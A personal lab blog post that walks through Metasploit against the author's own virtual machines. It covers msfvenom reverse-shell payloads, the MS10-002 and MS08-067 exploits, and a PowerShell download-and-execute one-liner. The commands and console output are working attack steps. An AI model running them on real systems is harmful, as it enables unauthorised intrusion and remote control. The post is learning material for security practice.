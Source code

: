 Metasploit
==========

:date: 2021-07-30 20:15
:tags: security, linux, hacking, metasploit, reverse shell,
:summary: ...

I am a software developer and no a security researcher. But it is still
important to master the current security principles. Of course you can read all
about it, but more fun would be to try this out. Back in the days I already play
with some penetration tools on
`Backtrack <https://en.wikipedia.org/wiki/BackTrack>`__.
Mostly I hacked someone WLAN, or stuff like this.

Now its time to play with Metasploit. I don't go into too much detail, I just
try it out and present the results.


The Basics
----------
The basic steps for exploiting a system are:

  1. Choosing and configuring an exploit
      Code that enters a target system by taking advantage of one of its bugs.
  2. Choosing and configuring a payload
      Code that will be executed on the target system upon successful entry.
      Mostly this will by remote shell.
  3. Executing the exploit.
      ..

There are a few tools to handle these steps. We are going to use Metasploit. I
think you can install it on your system, but I work with Kali for any security
task I have. By the way I run Kali on
`Virtualbox <https://www.virtualbox.org>`__.
This I also use for my targets.

  * `Kali <https://www.kali.org/get-kali/#kali-virtual-machines>`__
  * `Windows 10/8/7 <https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/#downloads>`__
  * `Windows 10 Development environment <https://developer.microsoft.com/de-de/windows/downloads/virtual-machines/>`__
  * `Windows XP <https://isoriver.com/windows-xp-iso-download/>`__


Example 0x01 - Revers Shell
---------------------------
You can create an executable file, that will connect to your device. Almost any
security scanner will detect this file. But anyway let us use this for the first
try. You may need to turn off your virus program.

This is the finale result, all commands below the video:

.. image:: {static}/images/articels/security/metasploit-001.gif
  :width: 100 %
  :alt: alternate text

First we create the execute file:

.. code-block:: bash

  $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.178.41 LPORT=5555 -f exe > shell.exe

Run web server with python to copy the file to the target:

.. code-block:: bash

  $ python3 -m http.server

Now you can download the file on the target. Be for we execute it, we have to
setup metasploit. Open metasploit

.. code-block:: bash

  $ msfconsole

and set it up:

.. code-block:: bash

  msf6 > use exploit/multi/handler
  msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
  PAYLOAD => windows/meterpreter/reverse_tcp
  msf6 exploit(multi/handler) > set LHOST 192.168.178.41
  LHOST => 192.168.178.41
  msf6 exploit(multi/handler) > set LPORT 5555
  LPORT => 5555
  msf6 exploit(multi/handler) > run

Now execute the file on the target device.


Example 0x02 - Internet Explorer 6
----------------------------------

This is how it looks, the commands are under the video:

.. image:: {static}/images/articels/security/metasploit-002.gif
  :width: 100 %
  :alt: alternate text

Start metasploit

.. code-block:: bash

  $ msfconsole

and set it up:

.. code-block:: bash

  msf6 > use exploit/windows/browser/ms10_002_aurora
  msf6 exploit(windows/browser/ms10_002_aurora) > set PAYLOAD windows/meterpreter/reverse_tcp
  PAYLOAD => windows/meterpreter/reverse_tcp
  msf6 exploit(windows/browser/ms10_002_aurora) > set LHOST 192.168.178.41
  LHOST => 192.168.178.41
  msf6 exploit(windows/browser/ms10_002_aurora) > set LPORT 5555
  LPORT => 5555
  msf6 exploit(windows/browser/ms10_002_aurora) > set SRVHOST 192.168.178.41
  SRVHOST => 192.168.178.41
  msf6 exploit(windows/browser/ms10_002_aurora) > set SRVPORT 80
  SRVPORT => 80
  msf6 exploit(windows/browser/ms10_002_aurora) > set URIPATH /
  URIPATH => /
  msf6 exploit(windows/browser/ms10_002_aurora) > exploit
  [*] Exploit running as background job 0.
  [*] Exploit completed, but no session was created.
  msf6 exploit(windows/browser/ms10_002_aurora) >
  [*] Started reverse TCP handler on 192.168.178.41:5555
  [*] Using URL: http://192.168.178.41:80/
  [*] Server started.

If you now visit  http://192.168.178.41/ with Internet Explorer,m you should see something like:

.. code-block:: bash

  [*] 192.168.178.45   ms10_002_aurora - Sending MS10-002 Microsoft Internet Explorer "Aurora" Memory Corruption
  [*] Sending stage (175174 bytes) to 192.168.178.45
  [*] Meterpreter session 1 opened (192.168.178.41:5555 -> 192.168.178.45:1046) at 2021-07-26 04:33:54 -0400

You can now interact with the session:

.. code-block:: bash

  msf6 exploit(windows/browser/ms10_002_aurora) > sessions -l

  Active sessions
  ===============

    Id  Name  Type                     Information                            Connection
    --  ----  ----                     -----------                            ----------
    1         meterpreter x86/windows  AXJU-5980144708\axju @ AXJU-598014470  192.168.178.41:5555 -> 192.168.178.45
                                       8                                      :1046 (192.168.178.45)

  msf6 exploit(windows/browser/ms10_002_aurora) > sessions -i 1
  [*] Starting interaction with 1...

  meterpreter > sysinfo
  Computer        : AXJU-5980144708
  OS              : Windows XP (5.1 Build 2600, Service Pack 3).
  Architecture    : x86
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter >


Example 0x03 - Windows XP
-------------------------

Again the finale result and the commands are below:

.. image:: {static}/images/articels/security/metasploit-003.gif
  :width: 100 %
  :alt: alternate text

Start metasploit

.. code-block:: bash

  $ msfconsole

and set it up:

.. code-block:: bash

  msf6 > use exploit/windows/smb/ms08_067_netapi
  msf6 exploit(windows/smb/ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
  PAYLOAD => windows/meterpreter/reverse_tcp
  msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.178.41
  LHOST => 192.168.178.41
  msf6 exploit(windows/smb/ms08_067_netapi) > set LPORT 5555
  LPORT => 5555
  msf6 exploit(windows/smb/ms08_067_netapi) > set RHOST 192.168.178.45
  RHOST => 192.168.178.45
  msf6 exploit(windows/smb/ms08_067_netapi) > exploit

Now you should see something like:

.. code-block:: bash

  [*] Started reverse TCP handler on 192.168.178.41:5555
  [*] 192.168.178.45:445 - Automatically detecting the target...
  [*] 192.168.178.45:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
  [*] 192.168.178.45:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
  [*] 192.168.178.45:445 - Attempting to trigger the vulnerability...
  [*] Sending stage (175174 bytes) to 192.168.178.45
  [*] Meterpreter session 1 opened (192.168.178.41:5555 -> 192.168.178.45:1038) at 2021-07-26 04:14:41 -0400

  meterpreter >

And this is all, now you have the control over the target system. See how
dangers Windows XP is?


Example 0x04 - Python
---------------------

You know it, scroll for the commands or enjoy the video:

.. image:: {static}/images/articels/security/metasploit-004.gif
  :width: 100 %
  :alt: alternate text

.. code-block:: bash

  $ msfvenom -p python/meterpreter/reverse_tcp  LHOST=192.168.178.41 LPORT=5555 -f raw > shell.py
  $ python3 -m http.server

Now we quick config metasploit:

.. code-block:: bash

  msf6 > use exploit/multi/handler
  [*] Using configured payload generic/shell_reverse_tcp
  msf6 exploit(multi/handler) > set PAYLOAD python/meterpreter/reverse_tcp
  PAYLOAD => python/meterpreter/reverse_tcp
  msf6 exploit(multi/handler) > set LHOST 192.168.178.41
  LHOST => 192.168.178.41
  msf6 exploit(multi/handler) > set LPORT 5555
  LPORT => 5555
  msf6 exploit(multi/handler) > exploit

  [*] Started reverse TCP handler on 192.168.178.41:5555
  [*] Sending stage (39392 bytes) to 192.168.178.42

On the target we open the PowerShell and execute:

.. code-block:: bash

  (new-object net.webclient).DownloadString('http://192.168.178.41:8000/shell.py') | python

This will load and execute the python script. Now you have access to the target
system with metasploit:

.. code-block:: bash

  [*] Meterpreter session 1 opened (192.168.178.41:5555 -> 192.168.178.42:49636) at 2021-07-26 05:30:28 -0400

  meterpreter >
